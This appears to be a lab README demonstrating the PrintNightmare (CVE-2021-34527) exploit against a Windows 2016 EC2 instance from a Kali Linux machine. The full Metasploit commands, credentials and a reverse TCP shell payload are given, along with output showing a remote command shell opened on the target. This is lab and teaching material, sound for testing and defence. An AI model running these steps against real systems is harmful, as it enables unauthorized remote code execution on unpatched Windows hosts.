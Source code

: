 # Printnightmare (CVE-2021-34527)

## Win 2016 in AWS

- start Kali Linux ec2 instance in eu-central-1
- start Windows 2016 ec2 instance (ami-0808d6a0d91e57fd3) in eu-central-1
- allow all communications between kali and windows

```bash
ssh kali@<kali ip>
```

- start metasploit framework on the kali vm

```bash
msfconsole
```

- configure metasploit framework to exploit printnightmare vulnerability

```bash
msf6 > use exploit/windows/dcerpc/cve_2021_1675_printnightmare
msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > set RHOSTS <windows-privat-ip-address>
msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > set SMBUSER mondoo
msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > set SMBPASS mondoo.com
msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > set payload windows/x64/shell_reverse_tcp
msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > run

msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > run

[*] Started reverse TCP handler on 10.0.4.196:4444 
[*] 10.0.4.131:445 - Running automatic check ("set AutoCheck false" to disable)
[*] 10.0.4.131:445 - Target environment: Windows v10.0.14393 (x64)
[*] 10.0.4.131:445 - Enumerating the installed printer drivers...
[*] 10.0.4.131:445 - Retrieving the path of the printer driver directory...
[+] 10.0.4.131:445 - The target is vulnerable. Received ERROR_BAD_NET_NAME, implying the target is vulnerable.
[*] 10.0.4.131:445 - Server is running. Listening on 10.0.4.196:445
[*] 10.0.4.131:445 - Server started.
[*] 10.0.4.131:445 - The named pipe connection was broken, reconnecting...
[*] 10.0.4.131:445 - Successfully reconnected to the named pipe.
[*] 10.0.4.131:445 - The named pipe connection was broken, reconnecting...
[*] Command shell session 1 opened (10.0.4.196:4444 -> 10.0.4.131:51572) at 2022-06-03 10:31:46 +0000
[*] 10.0.4.131:445 - Server stopped.


Shell Banner:
Microsoft Windows [Version 10.0.14393]
-----
          

C:\Windows\system32>
```
